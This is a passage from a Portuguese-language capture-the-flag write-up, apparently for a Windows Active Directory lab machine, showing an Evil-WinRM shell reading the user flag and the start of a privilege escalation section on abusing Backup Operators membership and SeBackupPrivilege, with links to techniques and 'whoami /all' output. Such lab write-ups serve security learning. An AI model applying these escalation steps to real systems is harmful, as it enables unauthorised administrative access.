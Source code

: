 ```bash
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
3920bb317a0bef51027e2852be64b543
```

## Privilege Escalation

<div id='privesc'/>

​	Após pegarmos shell, podemos enumerar a máquina e, logo no início, descobrir que nosso usuário pertence ao grupo **Backup Operators** e possui o privilégio **SeBackupPrivilege** habilitado.

​	Com isso, podemos encontrar as seguintes informacões de exploracões para se fazer:

- [Priv2Admin](https://github.com/gtworek/Priv2Admin)
- [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- [Windows - Token Impersonation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)

```powershell
*Evil-WinRM* PS C:\Temp> whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```
